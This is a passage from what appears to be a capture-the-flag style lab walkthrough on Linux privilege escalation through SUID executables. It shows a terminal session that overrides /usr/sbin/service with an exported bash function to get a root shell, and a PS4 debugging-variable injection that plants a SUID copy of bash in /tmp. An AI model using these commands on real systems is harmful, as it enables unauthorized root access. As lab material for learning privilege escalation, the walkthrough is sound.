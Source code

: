 ```bash
user@debian:~$ ls -l /usr/local/bin/suid-env2 
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:~# 
```

# [Task 15] SUID / SGID Executables - Abusing Shell Features (#2)

*Note: This will not work on Bash versions 4.4 and above.*

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```
